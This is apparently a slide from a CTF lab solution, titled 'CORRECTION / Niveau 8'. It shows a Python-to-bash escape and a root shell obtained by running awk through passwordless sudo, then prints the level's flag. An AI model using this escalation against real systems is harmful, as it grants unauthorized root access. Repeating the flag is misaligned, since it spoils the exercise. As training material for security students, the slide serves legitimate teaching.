

CORRECTION / Niveau 8

Python 2.7.17 (default, Nov  7 2019, 10:07:09)
>>> import os
>>> os.system('/bin/bash')

level8@clusir-ceh-20200212:~$ sudo -l
User level8 may run the following commands on clusir-ceh-20200212:
	(root) NOPASSWD: /usr/bin/free
	(root) NOPASSWD: /usr/bin/clear
	...
	(root) NOPASSWD: /usr/bin/awk
	(root) NOPASSWD: /usr/bin/aws
level8@clusir-ceh-20200212:~$ sudo awk 'BEGIN {system("/bin/sh")}'

# whoami
root
# cat /root/flag
${CLUSIRceh2020|aRChiCUr}